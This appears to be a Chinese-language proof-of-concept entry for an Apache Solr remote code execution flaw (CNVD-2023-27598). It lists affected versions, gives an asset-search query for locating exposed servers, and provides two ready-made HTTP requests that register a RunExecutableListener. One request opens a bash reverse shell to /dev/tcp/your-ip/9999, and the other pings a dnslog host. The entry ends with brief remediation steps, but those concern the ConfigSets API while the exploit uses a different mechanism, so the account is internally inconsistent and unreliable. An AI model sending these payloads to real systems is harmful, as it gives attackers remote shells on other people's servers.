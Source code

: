 # Apache Solr 代码执行漏洞 CNVD-2023-27598

## 漏洞描述

Solr 以 Solrcloud 模式启动且可出网时，未经身份验证的远程攻击者可以通过发送特制的数据包进行利用，最终在目标系统上远程执行任意代码。

## 漏洞影响

```
8.10.0 <= Apache Solr < 9.2.0
```

## 网络测绘

```
app="APACHE-Solr"
```

## 漏洞复现

使用postCommit来命令执行

```
POST /solr/demo/config HTTP/1.1
Host: 192.168.1.92:8983
Content-Length: 180
Content-Type: application/json

{"add-listener":{"event":"postCommit","name":"suiyi","class":"solr.RunExecutableListener","exe":"bash","dir":"/bin/","args":["-c", "bash -i >& /dev/tcp/your-ip/9999 0>&1"]}}
```

通过newSearcher命令执行

```
POST /solr/demo/config HTTP/1.1
Host: 192.168.1.92:8983
Content-Length: 170
Content-Type: application/json

{"add-listener":{"event":"newSearcher","name":"newSearcher3","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "ping -c 3 your-dnslog.dnslog.cn"]}}
```

## 漏洞修复

1. 如果未使用 ConfigSets API，请禁用 UPLOAD 命令，将系统属性：configset.upload.enabled 设置为 false ，详细参考：https://lucene.apache.org/solr/guide/8_6/configsets-api.html
2. 使用身份验证/授权，详细参考：https://lucene.apache.org/solr/guide/8_6/authentication-and-authorization-plugins.html
3. 官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，酌情升级至安全版本：
   https://github.com/apache/solr/releases/tag/releases/solr/9.2.0